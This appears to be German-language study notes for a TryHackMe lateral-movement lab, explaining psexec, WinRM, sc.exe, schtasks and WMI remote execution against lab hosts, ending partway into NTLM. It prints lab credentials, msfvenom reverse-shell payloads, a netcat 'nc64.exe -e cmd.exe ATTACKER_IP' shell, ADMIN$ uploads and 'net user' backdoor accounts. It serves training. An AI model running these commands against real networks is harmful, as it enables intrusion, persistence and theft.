# Introduction 

In diesem Raum werden wir uns mit lateraler Bewegung beschäftigen, einer Gruppe von Techniken, die von Angreifern verwendet werden, um sich im Netzwerk zu bewegen, während so wenige Alarme wie möglich ausgelöst werden. Wir werden mehrere gängige Techniken kennenlernen, die hierfür in der Praxis verwendet werden, sowie die beteiligten Tools.

Lernziele

    - Vertraut werden mit den lateralen Bewegungstechniken, die von Angreifern verwendet werden.
    
    - Lernen, wie man alternative Authentifizierungsmaterialien verwendet, um sich seitlich zu bewegen.
    
    - Verschiedene Methoden erlernen, um kompromittierte Hosts als Pivot zu verwenden.


Anforderung Ihrer Zugangsdaten

Um einen AD-Angriff zu simulieren, erhalten Sie Ihre ersten AD-Zugangsdaten. Sobald Ihr Netzwerksetup abgeschlossen ist, navigieren Sie auf Ihrem Angriffsrechner zu http://distributor.za.tryhackme.com/creds, um Ihre Zugangsdaten anzufordern. Klicken Sie auf die Schaltfläche "Zugangsdaten erhalten", um Ihre Zugangspaarung zu erhalten, die für den ersten Zugriff verwendet werden kann.

Dieses Zugangspaar gewährt Ihnen SSH-Zugriff auf THMJMP2.za.tryhackme.com. THMJMP2 kann als Sprung-Host in diese Umgebung betrachtet werden und simuliert einen Foothold, den Sie erreicht haben.

Für den SSH-Zugriff können Sie den folgenden Befehl verwenden:

>ssh henry.bird@thmjmp2.za.tryhackme.com

Password ist Changeme123

---

# Moving Through the Network 

### Was ist laterale Bewegung?

Einfach ausgedrückt ist laterale Bewegung die Gruppe von Techniken, die von Angreifern verwendet werden, um sich in einem Netzwerk zu bewegen. Sobald ein Angreifer Zugang zum ersten Rechner eines Netzwerks erhalten hat, ist das Bewegen aus vielen Gründen entscheidend, darunter: 

- Das Erreichen unserer Ziele als Angreifer - Das Umgehen von Netzwerkbeschränkungen 
- Das Etablieren zusätzlicher Einstiegspunkte in das Netzwerk 
- Das Erzeugen von Verwirrung und Vermeiden der Entdeckung.

Während viele Cyber-Kill-Ketten laterale Bewegung als zusätzlichen Schritt in einem linearen Prozess bezeichnen, ist sie tatsächlich Teil eines Zyklus. Während dieses Zyklus verwenden wir alle verfügbaren Anmeldeinformationen, um laterale Bewegungen durchzuführen und Zugang zu neuen Rechnern zu erhalten, wo wir Berechtigungen erhöhen und falls möglich Anmeldeinformationen extrahieren. Mit den neu gefundenen Anmeldeinformationen beginnt der Zyklus erneut.


Normalerweise wiederholen wir diesen Zyklus mehrmals, bevor wir unser endgültiges Ziel im Netzwerk erreichen. Wenn unser erster Einstiegspunkt ein Rechner mit sehr wenig Zugriff auf andere Netzwerkressourcen ist, müssen wir möglicherweise seitlich zu anderen Hosts wechseln, die mehr Berechtigungen im Netzwerk haben.

### A Quick Example

Angenommen, wir führen ein Red-Team-Engagement durch, bei dem unser endgültiges Ziel darin besteht, ein internes Code-Repository zu erreichen, wobei wir unser erstes "Eintreten" im Zielnetzwerk durch eine Phishing-Kampagne erzielt haben. Phishing-Kampagnen sind in der Regel effektiver gegen nicht-technische Benutzer, daher könnte unser erster Zugriff über einen Rechner in der Marketingabteilung erfolgen.

Die Arbeitsstationen im Marketing werden in der Regel durch Firewall-Richtlinien eingeschränkt, um auf kritische Dienste im Netzwerk zuzugreifen, einschließlich administrativer Protokolle, Datenbankports, Überwachungsdienste oder anderer Dienste, die für ihre tägliche Arbeit nicht erforderlich sind, einschließlich Code-Repositories.

Um sensible Hosts und Dienste zu erreichen, müssen wir zu anderen Hosts wechseln und von dort aus zu unserem endgültigen Ziel pivotieren. Zu diesem Zweck könnten wir versuchen, Berechtigungen auf der Marketing-Arbeitsstation zu erhöhen und lokale Benutzerpasswort-Hashes zu extrahieren. Wenn wir einen lokalen Administrator finden, könnte das gleiche Konto auch auf anderen Hosts vorhanden sein. Nachdem wir einige Recherchen angestellt haben, finden wir eine Arbeitsstation mit dem Namen DEV-001-PC. Wir verwenden den Passworthash des lokalen Administrators, um auf DEV-001-PC zuzugreifen und bestätigen, dass sie einem der Entwickler im Unternehmen gehört. Von dort aus ist der Zugriff auf unser Zielcode-Repository möglich.



Beachten Sie, dass seitliche Bewegungen möglicherweise verwendet werden müssen, um Firewall-Beschränkungen zu umgehen, aber auch hilfreich sind, um eine Entdeckung zu vermeiden. In unserem Beispiel ist es wahrscheinlich wünschenswert, sich über den PC des Entwicklers zu verbinden, auch wenn die Marketing-Arbeitsstation direkten Zugriff auf das Code-Repository hätte. Dieses Verhalten wäre weniger verdächtig aus der Sicht eines Blue-Team-Analysten, der Anmeldeüberwachungsprotokolle überprüft.

### Die Perspektive des Angreifers

Es gibt mehrere Möglichkeiten, wie ein Angreifer seitlich bewegen kann. Der einfachste Weg wäre die Verwendung von Standard-Administrationsprotokollen wie WinRM, RDP, VNC oder SSH, um eine Verbindung zu anderen Maschinen im Netzwerk herzustellen. Dieser Ansatz kann verwendet werden, um das Verhalten regulärer Benutzer einigermaßen zu emulieren, solange eine gewisse Kohärenz beim Planen erhalten bleibt, wo mit welchem Konto verbunden werden soll. Während es üblich sein kann, dass ein Benutzer von IT über RDP auf den Webserver zugreift und unter dem Radar bleibt, muss darauf geachtet werden, keine verdächtigen Verbindungen zu versuchen (z.B. warum verbindet sich der lokale Admin-Benutzer vom Marketing-PC mit DEV-001-PC?).

Angreifer haben heutzutage auch andere Methoden, um sich seitlich zu bewegen, während sie es für das Blue Team etwas schwieriger machen zu erkennen, was passiert. Obwohl keine Technik als unfehlbar angesehen werden sollte, können wir zumindest versuchen, so leise wie möglich zu sein. In den folgenden Aufgaben werden wir uns einige der gängigsten seitlichen Bewegungstechniken ansehen.

### Administratoren und UAC

Bei der Durchführung der meisten der im Raum vorgestellten seitlichen Bewegungstechniken werden hauptsächlich Administratoranmeldeinformationen verwendet. Obwohl man erwarten könnte, dass jedes einzelne Administratorkonto denselben Zweck erfüllen würde, muss ein Unterschied zwischen zwei Arten von Administratoren gemacht werden:

- Lokale Konten, die Teil der lokalen Administratorengruppe sind
- Domänenkonten, die Teil der lokalen Administratorengruppe sind

Die Unterschiede, an denen wir interessiert sind, sind die Einschränkungen, die User Account Control (UAC) über lokale Administratoren auferlegt (mit Ausnahme des Standard-Administrator-Kontos). Standardmäßig können lokale Administratoren keine Verbindung zu einem Rechner herstellen und administrative Aufgaben ausführen, es sei denn, sie verwenden eine interaktive Sitzung über RDP. Windows verweigert jede administrative Aufgabe, die über RPC, SMB oder WinRM angefordert wird, da solche Administratoren mit einem gefilterten Medium-Integritäts-Token angemeldet sind, das verhindert, dass das Konto privilegierte Aktionen ausführt. Das einzige lokale Konto, das volle Berechtigungen erhält, ist das Standard-Administrator-Konto.

Domänenkonten mit lokalen Administrationsberechtigungen unterliegen nicht derselben Behandlung und werden mit vollen administrativen Berechtigungen angemeldet.

Diese Sicherheitsfunktion kann bei Bedarf deaktiviert werden, und manchmal gibt es keinen Unterschied zwischen lokalen und Domänenkonten in der Administratorengruppe. Dennoch ist es wichtig zu beachten, dass einige der seitlichen Bewegungstechniken fehlschlagen könnten, wenn ein nicht standardmäßiger lokaler Administrator verwendet wird, bei dem UAC durchgesetzt wird. Weitere Details zu dieser Sicherheitsfunktion finden Sie [hier](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction).

#  Spawning Processes Remotely 

Diese Aufgabe wird die verfügbaren Methoden untersuchen, die ein Angreifer hat, um einen Prozess remote zu starten, was es ihnen ermöglicht, Befehle auf Maschinen auszuführen, für die sie gültige Anmeldeinformationen haben. Jede der diskutierten Techniken verwendet leicht unterschiedliche Möglichkeiten, um denselben Zweck zu erreichen, und einige von ihnen könnten besser für bestimmte Szenarien geeignet sein.

### Psexec

    Ports: 445/TCP (SMB)
    Erforderliche Gruppenmitgliedschaften: Administratoren

Psexec war jahrelang die bevorzugte Methode, wenn es darum ging, Prozesse remote auszuführen. Es ermöglicht einem Administrator-Benutzer, Befehle remote auf jedem PC auszuführen, auf den er Zugriff hat. Psexec ist eines von vielen Sysinternals-Tools und kann [hier](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) heruntergeladen werden.

Die Funktionsweise von psexec ist wie folgt:

- Verbindung zum Admin$-Freigabeordner herstellen und eine Dienst-Binärdatei hochladen. Psexec verwendet psexesvc.exe als Namen.
    
- Verbindung zum Dienstkontroll-Manager herstellen, um einen Dienst mit dem Namen PSEXESVC zu erstellen und auszuführen und die Dienst-Binärdatei mit ```C:\Windows\psexesvc.exe``` zu verknüpfen.
    
- Einige benannte Pipes erstellen, um stdin/stdout/stderr zu handhaben.



Um psexec auszuführen, müssen wir lediglich die erforderlichen Administrator-Anmeldeinformationen für den Remote-Host und den Befehl, den wir ausführen möchten, angeben (psexec64.exe steht für Ihre Bequemlichkeit unter C:\tools in THMJMP2 zur Verfügung):

>psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe

### Remote Process Creation Using WinRM

- Ports: 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Remote Management Users

Windows Remote Management (WinRM) ist ein webbasiertes Protokoll, das verwendet wird, um Powershell-Befehle remote an Windows-Hosts zu senden. Die meisten Windows Server-Installationen haben WinRM standardmäßig aktiviert, was es zu einem attraktiven Angriffsvektor macht.

Um eine Verbindung zu einer entfernten Powershell-Sitzung von der Befehlszeile aus herzustellen, können wir den folgenden Befehl verwenden:

```winrs.exe -u:Administrator -p:Mypass123 -r:target cmd```

Wir können dasselbe auch von Powershell aus erreichen, aber um verschiedene Anmeldeinformationen zu übergeben, müssen wir ein PSCredential-Objekt erstellen:

```bash
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Sobald wir unser PSCredential-Objekt haben, können wir eine interaktive Sitzung mit dem Enter-PSSession-Cmdlet erstellen:

```bash
Enter-PSSession -Computername TARGET -Credential $credential
```

Powershell enthält auch das Invoke-Command-Cmdlet, das ScriptBlocks remote über WinRM ausführt. Anmeldeinformationen müssen ebenfalls über ein PSCredential-Objekt übergeben werden:

```bash
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```

### Remotely Creating Services Using sc

    Ports:
        135/TCP, 49152-65535/TCP (DCE/RPC)
        445/TCP (RPC over SMB Named Pipes)
        139/TCP (RPC over SMB Named Pipes)

    Required Group Memberships: Administrators

Windows-Dienste können auch verwendet werden, um willkürliche Befehle auszuführen, da sie einen Befehl ausführen, wenn sie gestartet werden. Obwohl eine Dienstausführbare Datei technisch gesehen von einer regulären Anwendung verschieden ist, wird sie trotzdem ausgeführt und danach fehlschlagen, wenn wir einen Windows-Dienst konfigurieren, um eine beliebige Anwendung auszuführen.

Wir können einen Dienst auf einem entfernten Host mit sc.exe erstellen, einem Standardtool, das in Windows verfügbar ist. Beim Verwenden von sc wird versucht, eine Verbindung zum Dienststeuerungs-Manager (SVCCTL) Remote-Serviceprogramm über RPC auf mehrere Arten herzustellen:

1. Ein Verbindungsversuch wird mit DCE/RPC unternommen. Zunächst wird der Client eine Verbindung zum Endpunkt-Mapper (EPM) auf Port 135 herstellen, der als Katalog verfügbarer RPC-Endpunkte dient und Informationen über das SVCCTL-Serviceprogramm anfordert. Der EPM wird dann mit der IP-Adresse und dem Port antworten, mit dem eine Verbindung zu SVCCTL hergestellt werden soll, der normalerweise ein dynamischer Port im Bereich von 49152-65535 ist.



2. Wenn die letztere Verbindung fehlschlägt, wird sc versuchen, SVCCTL über SMB-Named Pipes zu erreichen, entweder auf Port 445 (SMB) oder 139 (SMB über NetBIOS).

Wir können einen Dienst namens "THMservice" mit den folgenden Befehlen erstellen und starten:

```bash
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice
```

Der Befehl "net user" wird ausgeführt, wenn der Dienst gestartet wird, und erstellt einen neuen lokalen Benutzer im System. Da das Betriebssystem für das Starten des Dienstes zuständig ist, können Sie die Befehlsausgabe nicht anzeigen.

Um den Dienst zu stoppen und zu löschen, können wir dann die folgenden Befehle ausführen:

```bash
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```

### Creating Scheduled Tasks Remotely

Ein weiteres Windows-Feature, das wir nutzen können, sind geplante Aufgaben. Du kannst eine Aufgabe erstellen und ferngesteuert ausführen mit schtasks, das in jeder Windows-Installation verfügbar ist. Um eine Aufgabe mit dem Namen THMtask1 zu erstellen, können wir die folgenden Befehle verwenden:

```bash
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s TARGET /run /TN "THMtask1" 
```
Wir setzen den Zeitplan-Typ (/sc) auf ONCE, was bedeutet, dass die Aufgabe nur einmal zum angegebenen Zeitpunkt und Datum ausgeführt werden soll. Da wir die Aufgabe manuell ausführen werden, spielt das Startdatum (/sd) und die Startzeit (/st) sowieso nicht viel Rolle.

Da das System die geplante Aufgabe ausführt, wird uns die Ausgabe des Befehls nicht zur Verfügung stehen, was dies zu einem Blindangriff macht.

Schließlich können wir die geplante Aufgabe mit folgendem Befehl löschen und uns aufräumen:

```bash
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```

### Let's Get to Work!

Wir verbinden uns per SSH mit der THMJMP2 Maschine und nutzen unsere Credentials von unserem initial foothold. 

>ssh henry.bird@thmjmp2.za.tryhackme.com

Password: Changeme123

Wir haben ausserdem Zugangsdaten von einem "Admin" erhalten, die wir jetzt nutzen werden.

User: ZA.TRYHACKME.COM\t1_leonard.summers

Password: EZpass4ever

Wir werden zeigen, wie man diese Anmeldeinformationen verwendet, um seitlich zu THMIIS zu gelangen, indem wir sc.exe verwenden. Sie können gerne auch die anderen Methoden ausprobieren, da sie alle gegen THMIIS funktionieren sollten.

Obwohl wir bereits gezeigt haben, wie man sc verwendet, um einen Benutzer auf einem entfernten System zu erstellen (indem wir net user verwenden), können wir auch jede Binärdatei hochladen, die wir ausführen möchten, und sie mit dem erstellten Dienst verknüpfen. Wenn wir jedoch versuchen, eine Reverse-Shell mit dieser Methode auszuführen, werden wir feststellen, dass die Reverse-Shell sofort nach der Ausführung getrennt wird. Der Grund dafür ist, dass Dienst-Executables sich von Standard-.exe-Dateien unterscheiden und daher nicht-Dienst-Executables fast sofort vom Dienst-Manager beendet werden. Glücklicherweise unterstützt msfvenom das exe-service-Format, das jedes Payload, das wir mögen, in eine voll funktionsfähige Service-Executable einbettet und verhindert, dass sie beendet wird.

Um eine Reverse-Shell zu erstellen, können wir den folgenden Befehl verwenden:

```bash
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o rshell4444.exe
```

Wir werden dann fortfahren und die Anmeldeinformationen von t1_leonard.summers verwenden, um unser Payload auf den ADMIN$-Freigabe Ordner von THMIIS mithilfe von smbclient von unserer AttackBox aus hochzuladen:

```bash
smbclient -c 'put rshell4444.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
```
Sobald unsere ausführbare Datei hochgeladen ist, richten wir auf dem Rechner des Angreifers einen Listener ein, um die Reverse-Shell von msfconsole zu empfangen:

Beispiel:
```bash
user@AttackBox$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.10.10.16:4444
```

Hier ist ein 1-Liner um dasselbe auszuführen:

```bash
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST lateralmovement; set LPORT 4444;exploit"
```
Da sc.exe uns nicht erlaubt, Anmeldeinformationen als Teil des Befehls anzugeben, müssen wir runas verwenden, um eine neue Shell mit dem Zugriffstoken von t1_leonard.summer zu starten. Allerdings haben wir nur SSH-Zugang zur Maschine, daher würden wir, wenn wir etwas wie runas /netonly /user:ZA\t1_leonard.summers cmd.exe versuchen würden, die neue Befehlszeile auf der Benutzersitzung starten, aber keinen Zugriff darauf haben. Um dieses Problem zu überwinden, können wir runas verwenden, um eine zweite Reverse-Shell mit dem Zugriffstoken von t1_leonard.summers zu starten.

```bash
runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"
```
Hinweis: Denken Sie daran, dass runas mit der Option /netonly nicht überprüft, ob die angegebenen Anmeldeinformationen gültig sind (weitere Informationen dazu im Raum zur Enumeration von AD), also stellen Sie sicher, dass Sie das Passwort korrekt eingeben. Andernfalls werden später im Raum einige ACCESS DENIED-Fehler angezeigt.

Wir können wie gewohnt die Verbindung zur Reverse-Shell unter Verwendung von nc in unserer AttackBox empfangen:

>nc -lvnp 4443

Danach können wir endlich unseren Service starten um eine Reverse Shell auf Port 4444 zu erreichen:

```bash
sc.exe \\thmiis.za.tryhackme.com create THMservice-4936 binPath= "%windir%\rshell4936.exe" start= auto

sc.exe \\thmiis.za.tryhackme.com start THMservice-4936
```

Stellen Sie sicher, dass Sie den Namen Ihres Dienstes ändern, um Konflikte mit anderen Studierenden zu vermeiden.

# Moving Laterally Using WMI 

Windows Management Instrumentation (WMI) ist eine Technologie, die von Microsoft entwickelt wurde und in den Windows-Betriebssystemen integriert ist. Sie ermöglicht die Verwaltung und Überwachung von Systemressourcen sowie die Automatisierung von Verwaltungsaufgaben auf Windows-basierten Computern.

Im Wesentlichen bietet WMI eine standardisierte Methode zum Zugriff auf und zur Steuerung von Systemressourcen wie Hardware, Software und Netzwerkkomponenten über eine einheitliche Schnittstelle. Dies bedeutet, dass Administratoren und Entwickler über WMI auf Informationen und Funktionen zugreifen können, ohne auf proprietäre APIs oder spezifische Treiber zurückgreifen zu müssen.

Mithilfe von WMI können verschiedene Aufgaben ausgeführt werden, darunter:

1. Überwachung: WMI ermöglicht die Überwachung von Systemressourcen wie CPU-Auslastung, Speicherverbrauch, Festplattenplatz und Netzwerkaktivität. Dies ist besonders nützlich für die Leistungsüberwachung und das Fehlermanagement.

2. Konfiguration: Administratoren können WMI verwenden, um Systemeinstellungen und Konfigurationen zu ändern, ohne auf Benutzeroberflächen zugreifen zu müssen. Dies erleichtert die Automatisierung von Verwaltungsaufgaben.

3. Ereignisverarbeitung: WMI ermöglicht die Erfassung und Verarbeitung von Ereignissen auf einem Windows-System, wie z.B. das Auslösen von Aktionen basierend auf bestimmten Ereignissen oder das Senden von Benachrichtigungen.

4. Remoteverwaltung: Durch WMI können Administratoren Remote-Computer verwalten, indem sie Befehle und Abfragen über das Netzwerk senden, ohne physisch vor Ort sein zu müssen.

Insgesamt ist WMI ein leistungsstarkes Werkzeug für die Verwaltung von Windows-Systemen, das sowohl von Administratoren als auch von Entwicklern genutzt werden kann, um Verwaltungsaufgaben zu automatisieren, die Systemüberwachung zu verbessern und die Effizienz bei der Verwaltung von IT-Infrastrukturen zu steigern.

### Connecting to WMI from Powershell

Da uns vor allem erstmal die Remoteverwaltung interessiert, werden wir diese jetzt nutzen. Dazu müssen wir erstmal ein PSCredential Object in Powershell erstellen. Dieses Object speichern wir dann in der Variable $credential und wird dann im weiteren Verlauf verwendet:

```bash
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConverTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Danach bauen wir eine WMI Session mit folgenden Protokollen auf:

1. DCOM: RPC über IP wird für eine Verbindung zu WMI genutzt. Dieses Protokoll nutzt Port 135/TCP und die Ports 49152-65535/TCP, wie bereits auch in der Nutzung von sc.exe erklärt.
2. Wsman: WinRM wird für die Verbindung zu WMI genutzt. Dieses Protokoll nutzt Port 5985/TCP (WinRM HTTP) oder 5986/TCP (WinRM HTTPS).

Um eine WMI Session mit Powershell zu erstellen, können wir folgende Befehle ausführen und die Session in der Variable $Session speichern, die wir ebenfalls im weiteren Verlauf nutzen können.

```bash
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

Mit dem **New-CimSessionOption** cmdlet konfigurieren wir die Verbindungsoptionen für die WMI Session, inklusive des Protokolls. Diese Optionen und Zugangsdaten werden dann dem cmdlet **New-CimSession** übergeben, welche eine Session zum remote Host herstellt.

### Remote Process Creation Using WMI

- Ports:

> 135/TCP, 49152-65535/TCP (DCERPC)
5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Administrators

Wir können ein Prozess remote mit Hilfe von Powershell starten, indem wir dazu WMI nutzen. Ein WMI Request wird zur Win32_Process Klasse geschickt, um diesen Prozess innerhalb dieser Session zu starten, die wir vorher erstellt haben.

```bash
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```
Beachte bitte, dass WMI keinen Output ausgibt und den Prozess "leise" ausführt. Auf älteren Systemen lautet der Befehl:

```bash
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" 
```

### Creating Services Remotely with WMI

- Ports:
> 135/TCP, 49152-65535/TCP (DCERPC)
5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Administrators

Wir können auch Services mit WMI über die Powershell erstellen. Um einen Prozess mit dem Namen THMService2 zu erstellen, nutzen wir folgenden Befehl:

```bash
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

Danach können wir den Service folgendermaßen starten:

```bash
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

Um den Service wieder zu beenden geben wir folgendes ein:

```bash
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

### Creating Schweduled Tasks Remotely with WMI

- Ports:
>135/TCP, 49152-65535/TCP (DCERPC)
5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Administrators

Wir können auch geplante Tasks mit einigen cmdlets die in Windows verfügbar sind erstellen:

```bash
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

Den Task löschen wir wieder mit:

```bash
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

### Installing MSI Packages trough WMI

- Ports:
>135/TCP, 49152-65535/TCP (DCERPC)
5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Required Group Memberships: Administrators

MSI in ein Dateiformat für Installer. Wenn wir ein MSI Package auf das Zielsystem laden können, können wir mit WMI versuchen, dieses für uns zu installieren. Dazu versuchen wir die Win32_Product Klasse über WMI anzusprechen:

```bash
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

Auf Legacy System können wir folgenden Befehl ausführen:

>wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi


### Lets Get to Work!

Um das gelernte jetz anzuwenden, nutzen wir die Credentials, die wir ganz zu Anfang bekommen haben. Wir vebinden uns zur Maschine über SSH:

>ssh henry.bird@thmjmp2.za.tryhackme.com

Wir gehen davon aus, wir haben bereits auch Credentials für einen administrativen Zugang erhalten:

>User: ZA.TRYHACKME.COM\t1_corine.waters

>Password: Korine.1994

Wir werden mit diesen Creds jetzt uns seitlich im Netzwerk bewegen (lateral movement) und auf THM-IIS zugreifen. 

Als erstes müssen wir folgende Befehle durchführen um uns mit WMI verbinden zu können.

```bash
$username = 't1_corine.waters';
$password = 'Korine.1994';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

Dann erstellen wir einen Payload auf unserem System den wir im Anschluß auf das Zielsystem hochladen:

>msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > myinstaller.msi

> smbclient -c 'put myinstaller.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994

Dann starten wir einen Listener auf Port 4445

>nc -lvnp 4445

Jetzt können wir die Install Methode der Win32_Product Klasse anstoßen um den Payload zu triggern:

> Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}

#### Wir haben eine Shell als NT Authority\System


# Use of Alternate Authentication Material

Mit Alternate Authentication Material meint man jedes Stück Daten das dazu genutzt werden kann, zugang zu einem Windows Account zu erhalten ohne das User Password zu kennen. Das ist aufgrund der Funktionsweise einiger Protokolle möglich, die Windows Netzwerke nutzen. In diesem Kapitel schauen wir uns an, was möglich ist, wenn folgende Protokolle genutzt werden:

- NTLM Authentication
- Kerberos Authentication

### NTLM Authentication

Wir funktioniert eigentlich NTLM?



1. Der Client sendet eine Authentifizierungsanfrage an den Server
2. Der Server generiert eine zufällige Nummer und sendet diese als "Challenge" an den Client zurück
